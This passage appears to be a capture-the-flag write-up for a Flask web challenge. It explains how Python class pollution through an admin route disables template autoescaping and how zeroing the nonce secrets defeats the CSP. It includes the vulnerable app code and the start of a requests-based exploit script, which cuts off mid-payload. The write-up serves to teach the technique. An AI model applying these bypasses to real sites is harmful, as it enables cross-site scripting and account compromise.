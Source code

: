 [](#Solution-3 "Solution")Solution
----------------------------------

There is a convenient route under /admin/update-accepted-templates that enables us to change the original autoescape value to false by prototype pollution. After escaping is bypassed, we will now have to bypass the CSP by changing the SECRET\_NONCE and RANDOM\_COUNT variables in order to generate a nonce that we control.

```
TEMPLATES\_ESCAPE\_ALL = True  
 
...

@app.route("/admin/update-accepted-templates", methods=\["POST"\])  
@login\_required  
def update\_template():  
    data = json.loads(request.data)  
  
    if "policy" in data and data\["policy"\] == "strict":  
        print("Policy reached", flush=True)  
        template\_env.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES\_ESCAPE\_ALL)  
  
    return jsonify({"success": "true"}), 200  
```
We will change the SECRET\_NONCE to an empty string “” and RANDOM\_COUNT to 0. The home page has a path of “/“ which will be passed to the data variable in generate\_nonce. The nonce will now become “” + “/“ + “” which is just “/“. The resulting nonce is “8a5edab282632443219e051e4ade2d1d5bbc671c781051bf1437897cbdfea0f1”.
```
def generate\_nonce(data):  
    nonce = SECRET\_NONCE + data + generate\_random\_string(length=RANDOM\_COUNT)  
    sha256\_hash = hashlib.sha256()  
    sha256\_hash.update(nonce.encode('utf-8'))  
    hash\_hex = sha256\_hash.hexdigest()  
    g.nonce = hash\_hex  
    return hash\_hex  
  ```

[](#Payload-2 "Payload")Payload
-------------------------------
```
import requests

URL = "https://web-co2v2-54990d5ba36d1ee8.2024.ductf.dev/"

s = requests.Session()

def register(username, password):
    data = {"username":username,"password":password}
    print(f"Registering {username} with password {password}")
    s.post(URL + "register", data=data)
    return 

def login(username, password):
    data = {"username":username,"password":password}
    s.post(URL + "login", data=data)
    print(f"Logging into {username}")
    return 

def pollute():

    templates_escape_all = {
        "__class__":{
            "__init__":{
```